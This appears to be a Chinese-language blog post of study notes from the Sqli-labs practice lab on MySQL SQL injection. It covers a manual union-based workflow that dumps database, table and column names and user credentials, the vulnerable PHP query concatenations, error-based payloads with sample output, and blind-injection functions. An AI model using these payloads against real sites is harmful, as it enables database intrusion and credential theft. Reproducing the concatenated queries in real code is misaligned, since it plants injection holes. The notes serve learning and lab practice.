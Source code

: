 ```yaml
---


title: Sqli-labs 

time: 2016.07.28 15:22:00

layout: post

tags:

- Security
- Web
- SQL

excerpt: Learning summary from Sqli-labs.I always feel that I'm not good ad SQL by hand .So, in this summer, I want to learn it through Sqli-labs.

---
```

# Sqli-labs

---

## 0x00 SQL注入一般过程

1. 判断是什么类型注入，有没有过滤了关键字，可否绕过，猜测后台SQL语句是怎样的，如何拼接
2. 获取数据库用户（user（））,版本（version（）），数据库（database（））等信息
3. 获取某个数据库表中信息
4. 获取列信息
5. 获取数据

---

## 0x01 PHP+Mysql 手注一般过程

1. 爆字段长度 order by num %（注释也可以使用－－空格）
2. 匹配字段 and 1=2 union select 1,2,3,4,5...%
3. 利用内置函数爆数据库信息及相关信息 version() database() user() current_user() @@datadir数据库路径 @@basedir mysql安装路径 @@version_compile_os 操作系统
4. (这里讲最通用的 mysql>5.0)	
	5. 获取数据库（非必要，因为前面的database可以获得）and 1=2 union select 1,2,schema_name from information_schema.schemata limit 0（开始的记录，0为第一个开始记录）,1（显示1条记录） % 
	6. 获取表  and 1=2 union select 1,2,table_name from information_schema.tables where table_schema = '数据库名字'（最常用的是十六进制表示的数据库,'容易被过滤） limit 0,1 ％
	7. 获取列  and 1=2 union select 1,2,column_name from information_schema.columns where table_schema=0x十六进制数据库 and table_name=0x十六进制表 limit 0,1 %
	8. 获取内容 and 1=2 union select 1,2,concat_ws(char(32,58,32),username,password) from users(表名) limit 0,1 %
	
-----

## 0x02 常见后台拼接语句

1. $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";（需闭合'）
2. $sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
3. $sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";（需闭合'））
4. $id = '"' . $id . '"';$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";即$sql="SELECT * FROM users WHERE id=("$id") LIMIT 0,1";(需闭合"),此时你输入'不会报错)
5. $sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";（少见）


----
	
## 0x03 无正常数据回显注入

mysql报错注入时,我们有时候会遇到没有正常数据回显的注入.这时候就需要报错注入来获得我们需要的数据.

```
1. floor()
语句:and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);

mysql> select 1 and (select 1 from  (select count(*),concat(version(),floor(rand
(0)*2))x from  information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '5.5.401' for key 'group_key'

2. updatexml()
语句:and (updatexml(1,concat(0x3a,(select user())),1));
ct
mysql> select 1 and (updatexml(1,concat(0x3a,(select user())),1));
ERROR 1105 (HY000): XPATH syntax error: ':root@localhost'

3. ExtractValue()

和upadtexml()用法差不多
语句:and extractvalue(1, concat(0x5c, (select user())));

mysql> select 1 and extractvalue(1, concat(0x5c, (select user())));
ERROR 1105 (HY000): XPATH syntax error: '\root@localhost'

4. GeometryCollection() version > MySQL4.1
5. MultiPoint()
6. Polygon()
7. LineString()
8. MultiPolygon()
9. MultiPoint()
10. MultiLineString()
11. 

这几个是mysql在4.1版本之后引入的一系列空间扩展，使其具备了一定的空间处理能力.
语句都一样就列举了一个例子.

语句:AND GeometryCollection((select * from(select * from(select user())a)b));

mysql> select 1 AND GeometryCollection((select * from(select * from(select user())a)b));

ERROR 1367 (22007): Illegal non geometric '(select `b`.`user()` from (select 'root@localhost' AS `user()` from dual) `b`)' value found during parsing

11. select exp(~(select * FROM(SELECT USER())a))         //double数值类型超出范围 //Exp()为以e为底的对数函数；版本在5.5.5及其以上
12. select !(select * from (select user())x -（ps:这是减号） ~0   //bigint超出范围；~0是对0逐位取反，很大的版本在5.5.5及其以上
13. select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;//mysql重复特性，此处重复了version，所以报错
```

---
## 0x04 盲注常用函数

1. length(str)：返回str字符串的长度。
2. substr(str, pos, len)：将str从pos位置开始截取len长度的字符进行返回。注意这里的pos位置是从1开始的，不是数组的0开始
3. mid(str,pos,len):跟上面的一样，截取字符串
4. ascii(str)：返回字符串str的最左面字符的ASCII代码值。
5. ord(str):同上，返回ascii码
6. if(a,b,c) :a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0
7. left(database(),1) 取database字符串的左边第一个


----

